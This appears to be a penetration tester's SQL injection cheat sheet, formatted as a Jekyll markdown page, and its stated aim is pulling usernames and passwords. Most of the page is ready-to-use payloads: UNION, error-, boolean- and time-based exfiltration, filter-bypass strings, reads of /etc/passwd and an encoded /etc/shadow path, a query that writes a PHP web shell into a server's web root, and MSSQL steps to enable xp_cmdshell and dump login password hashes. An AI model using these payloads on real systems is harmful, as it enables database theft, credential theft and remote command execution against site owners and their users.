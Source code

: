 ```yaml
---
title: SQL Injection
category: Web Application
order: 5
---
```


> **SQL Injection: Test Location and Strings**

**Pull usernames and passwords if successful**

**Test Locations:**
* GET URL query parameters
* POST parameters
* Cookie (session information)
* User-Agent

**Visable Test Strings:**
{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

**Methodology***

1. Determine injection point and how to break out:

{% highlight sql %}

SELECT info From users WHERE id = [UserInput]
SELECT info From users WHERE id = ' [UserInput] '
SELECT info From users WHERE id = " [UserInput] "
SELECT info From users WHERE (type='admin' AND id = [UserInput])

{% endhighlight %}

2. Use test strings like:

{% highlight sql %}

SELECT info From users WHERE id = 1
SELECT info From users WHERE id = -9999
SELECT info From users WHERE id = 1 AND 1=1
SELECT info From users WHERE id = 1 AND 'a'='a
SELECT info From users WHERE id = 1 AND 1=2
{% endhighlight %}

3. Exfiltration:

{% highlight sql %}
MySQL: 0 Union SELECT 'data' LIMIT [offset], [rows]
MSSQL: 0 UNION SELECT TOP [r] 'data' WHERE data_column not in (SELECT TOP [offset] 'data')
{% endhighlight %}

4. Error Based Exfiltration:

{% highlight sql %}
MYSQL: 1 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT '[data]'), FLOOR(RAND(0)*2)) x from users group by x) a)
MSSQL: 1 and 1=convert(int, (SELECT '[data]'))
{% endhighlight %}

4. Boolean Based Exfiltration:

{% highlight sql %}
--Known data
if (((SELECT 'data') = 'password'), 1, 0)

--Binary Search Tree
MySQL: 1 AND ASCII(MID((SELECT 'data'),[c],1))>79
MSSSQL: 1 AND ASCII(SUBSTRING((SELECT 'data'),[c],1))>79

{% endhighlight %}

5. Timing based QUERY:

{% highlight sql %}
MySQL: IF ([condition], SLEEP([s]), 0)
MSSQL: 1 IF ([condition]) WAITFOR DELAY '0:0:[s]'
{% endhighlight %}

6. Side Channel

* Use file /OS operations to write to web root
* Write output to Samba file share

**Blind Test Strings:**

*Try the following to see if it provides valid results for text that was interpreted:*

Commenting out the end | <code> Brent' ;# <br> Dent' ;-- <br> Dent' ;-- - </code>
Commenting with semicolon | <code> Brent' or 29=29; # <br> Dent' or 29=29;-- <br> Dent' or 29=29;-- - </code>
Commenting without semicolon | <code> Brent' or 1=1 # <br> Dent' or 1=1-- <br> Dent' or 1=1-- - </code>
Inline Commenting | <code> Bre'/* */'nt </code>
Concatenation | <code> De''nt <br> De'||'nt </code>
Binary/Boolean | <code> Dent' and 1;# <br> Dent' and 1=1;# <br> Dent' and 0;# <br> Dent' and 1=0;# </code>
Sleep MySQL | <code> Sleep(10) </code>
Sleep MySQL2 | <code> id=1-sleep(10)  </code>
Sleep MySQL3 | <code> and (select Sleep(10) =0) </code>
Sleep MSSQL | <code> WAITFOR DELAY '0:0:10'  MSSQL </code> 

Math | <code> id=1-0 </code>


Determine the level of blindness:
{% highlight sql %}
Dent' AND 1;#
Dent' AND 1=1;#

Dent' AND 0;#
Dent' AND 1=0;#
#Look for differences
{% endhighlight %}

> **Online Tool to test syntax***

* [sqlfiddle](http://sqlfiddle.com/#!9/a6c585/51364)

> **SQL Injection: Database Identification**

MS SQL Server | Incorrect syntax near 'something'
MS SQL Server | <code> 'De'+'nt' </code>
MS SQL Server | <code> SELECT @@version  </code>
MS SQL Server | <code> @@pack_received </code>
MySQL | 'De' 'nt'
MySQL | <code> SELECT @@version  </code>
MySQL | <code> connection_id() </code>
Oracle | ORA-01756: quoted string not properly terminated
Oracle | <code> 'De'||'nt' </code>
Oracle | <code> BITAND(1,1) </code>
PostgreSQL | 5-digit Hex Error Code

> **SQL Injection: Database, Table, and Columns**

**MySQL:**

Database | schema_name FROM information_schema.schemata 
Table | table_name FROM information_schema.tables
Table from DB | table_name FROM information_schema.tables where table_schema='your_database_name'
Columns | column_name From information_schema.columns where table_name='users'

**SQL Server:**

Database | name FROM sys.databases 
Table | name FROM sys.tables 
Columns | name FROM sys.coumns

**Oracle DB:**

Database | owner FROM all_tables 
Table | table_name FROM all_tables 
Columns | column_name FROM all_tab_columns

> **SQL Injection Filter Bypass**

UTF-16 URL encoding for select and union:
MySQL will map the most unicode characters
%u0055Nion %u0053elect
websec.github.io/unicode-security-guide/character-transformations/

Spaces:
union/**/select

Escaping Escapted Quotes (Single and Double):
{% highlight sql %}
313372, pd_description = (select schema_name FROM information_schema.schemata limit 1,1 union select LOAD_FILE(0x002F6574632F736861646F77) INTO outfile QUOTE(test.txt) limit 1,1), pd_description=QUOTE(1)

select 0x002F6574632F736861646F77
{% endhighlight %}

Functions:
char() and hex()

Try SQLMap tamper scripts


> **SQL Injection Union**

1) Once you have identified SQL injection, use order by or UNION select to determine the number of columns:
{% highlight sql %}
dent' and 'a'='a' ORDER BY 1; #
...until it breaks
dent' and 'a'='a' ORDER BY 5; #

Dent' UNION SELECT  NULL; #
..until it works
Dent' UNION SELECT  NULL, NULL, NULL, NULL; #
{% endhighlight %}

2) See which columns (e.g., numbers) are visable and correct data type (e.g., String/varchar) in the output. 
{% highlight sql %}
Dent' UNION SELECT  'X3Y2Z1', NULL, NULL, NULL; #
...until it works and visable in source (search for X3Y2Z1)
Dent' UNION SELECT  NULL, NULL, NULL, 'X3Y2Z1'; #
{% endhighlight %}

3) From the columns identified above, use one for the union. <br> *Note: It requires the same number of columns and compatable data type*
{% highlight sql %}
Dent' UNION SELECT  '1', '2', '3', info FROM information_schema.processlist; #
<br>
id=738 union select 1,2,3,null, table_name,5 FROM information_schema.tables where table_schema='webappdb';#
<br>
or use NULL since it is compatable with everything
<br>
Dent' UNION SELECT NULL, NULL, NULL;--
<b>
jeremy'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts;+--+
{% endhighlight %}

> **Blind SQL Injection Data Exfiltration**

Perform a binary search tree using substr: 

{% highlight sql %}
#Use
substr(([Query]),[Letter],[Word]) > "m"

substr((select table_name from information_schema.tables limit 1),1,1) > "m"
…
= "c"

{% endhighlight %}

> **Stacked Queries**

Allows multiple commands with a ';'  (Mostly MSSQL):
{% highlight sql %}
Dent' ;  CREATE TABLE exfil(data varchar(1000));-- 
{% endhighlight %}


> **Reading and Writing Files**

MySQL and MSSQL:
{% highlight sql %}
MySQL Reading:
Dent'+UNION+SELECT++'1'%2C+'2'%2C+'3'%2C+LOAD_FILE("%2Fetc%2Fpasswd")%3B+%23

MySQL Writing:
INTO OUTFILE 
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

SQL Server Reading: 
BULK INSERT
{% endhighlight %}

> **MSSQL Enable xp_cmdshell, exploit, and exfil**

{% highlight sql %}
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
exec master..xp_cmdshell 'dir c:'; --
RECONFIGURE;
{% endhighlight %}

{% highlight sql %}
\\get database version
select @@version
\\get usernames and password hashes
SELECT name, password FROM master..sysxlogins
\\get databases
SELECT name FROM master..sysdatabases
use [db]
\\select tables from current db
SELECT name FROM sysobjects WHERE xtype = 'U'
\\Select tables from a database (eg msdb)
SELECT name FROM [db]..sysobjects WHERE xtype = 'U'
\\Select everything from table
SELECT * from [tablename]
{% endhighlight %}


> **SQL Injection Cheat Sheets**

* [websec](https://websec.ca/kb/sql_injection)
* [PentestMonkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [SQLInjection Wiki](http://www.sqlinjectionwiki.com)

